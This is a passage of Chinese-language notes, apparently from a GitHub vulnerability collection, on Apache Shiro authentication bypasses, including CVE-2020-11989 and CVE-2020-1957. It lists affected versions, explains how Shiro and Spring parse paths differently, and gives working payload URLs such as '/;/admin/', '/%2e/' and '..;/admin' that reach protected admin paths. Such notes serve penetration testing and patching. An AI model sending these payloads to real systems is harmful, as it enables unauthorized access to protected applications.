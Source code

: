 **payload**

```
姿势一：

http://127.0.0.1:8080/admin/%20 或 http://127.0.0.1:8080/admin/%20/

使用空格等空字符，可绕过shiro身份验证。

姿势二：

经过和p0desta师傅交流，发现还有另一种特殊场景下的利用方式。

http://127.0.0.1:8080/admin/%2e 或 http://127.0.0.1:8080/admin/%2e/
但是在开启全路径的场景下setAlwaysUseFullPath(true)是可以正常匹配的。

```



### Shiro < 1.5.3 验证绕过漏洞(CVE-2020-11989)

https://zhuanlan.zhihu.com/p/353423631

**影响版本**

```
Shiro < 1.5.3 
```

**原因**

```
利用springboot 和 shiro解析差异
我们在访问一个被不需要鉴权就能访问的页面的时候，如果在后面加上;/一个需要权限的路径，在分号的地方会被shiro截断，从而绕过鉴权。

11989针对于/admin/page，这种固定路由，shiro得到的地址为/，因此认为可以访问，Spring得到的地址为/admin/page，从而定位到未授权的页面
```

**payload**

```
找一个不需要鉴权的页面进行访问，比如根目录。在其后加上;,再加上一个需要鉴权的目录进行访问（/admin/）。访问结果如下，成功绕过鉴权访问到admin目录：
http://ip:8080/;/admin/
或者
http://ip:8080/%3b/admin/
```

### Apache Shiro < 1.5.2 验证绕过漏洞(CVE-2020-1957)

**影响版本**

```
 Apache Shiro < 1.5.2 
```

**原因**

```
传入的恶意访问路径/xxxxx/..;/admin,经过shiro校验处理时，会在;处进行截断，对/xxxxx/..路径进行权限校验，而该路径又恰好满足校验规则，从而检验成功后将传入的路径/xxxxx/..;/admin交给spring boot 的控制器进行解析，而spring boot的解析后的路径是访问/admin,从而返回/admin路径下的内容给攻击者，从而实现权限绕过。
```
